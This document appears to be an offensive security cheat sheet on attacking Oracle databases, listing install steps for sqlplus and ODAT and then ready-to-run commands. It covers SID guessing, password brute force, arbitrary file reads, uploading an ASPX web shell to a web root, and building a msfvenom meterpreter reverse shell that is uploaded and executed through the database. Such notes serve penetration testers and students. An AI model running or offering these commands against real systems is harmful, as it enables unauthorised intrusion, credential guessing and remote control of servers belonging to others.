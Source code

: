 ```yaml
---
title: "Oracle Database"
date: 2024-7-5
tags: ["Oracle Db", "File System Permissions Vulnerabilities", "Database Dumping", "Brute Force", "Enumeration", "Privilege Escalation In Databases", "Database", "Sqlplus", "Odat", "Reverse Shell", "RCE"]
---
```


### Tools

{{< tab set1 tab1 active >}}sqlplus{{< /tab >}}
{{< tab set1 tab2 >}}ODAT{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Install
sudo apt install oracle-instantclient-sqlplus
```

```console
# export LD_LIBRARY_PATH
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```console
# Check
sqlplus -V
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Install
sudo apt install odat
```

```console
# Check
odat --version
```

<small>*Ref: [Download ODAT](https://github.com/quentinhardy/odat)*</small>

{{< /tabcontent >}}

---

### Enum

```console
# SID enum (You only need one)
odat sidguesser -s <TARGET>
```

```console
# User/Password brute force
odat passwordguesser -s <TARGET> -d <SID> --accounts-file accounts.txt
```

```console
# Run all checks with creds as sysdba
odat all -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba
```

### General

```console
# Export everytime or add to ~/.zshrc
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```console
# Connect
sqlplus '<USER>/<PASSWORD>@<TARGET>:1521/<SID>'
```

```console
# Connect as sysdba (sudo)
sqlplus '<USER>/<PASSWORD>@<TARGET>:1521/<SID>' as sysdba
```

```console
# Check privilege
select * from user_role_privs;
```

---

### Abuse #1: Arbitrary Read

```console
odat ctxsys -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --getFile c:\\users\\administrator\\desktop\\file.txt
```

### Abuse #2: Upload File to RCE

```console
odat dbmsadvisor -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --putFile C:\\inetpub\\wwwroot cmdasp.aspx /usr/share/webshells/aspx/cmdasp.aspx
```

### Abuse #3: Execute binary to RCE

```console
# Create a malicious exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f exe -o revshell.exe
```

```console
# Upload
odat utlfile -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --putFile C:\\ProgramData revshell.exe revshell.exe
```

```console
# Execute
odat externaltable -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --exec C:\\ProgramData revshell.exe
```
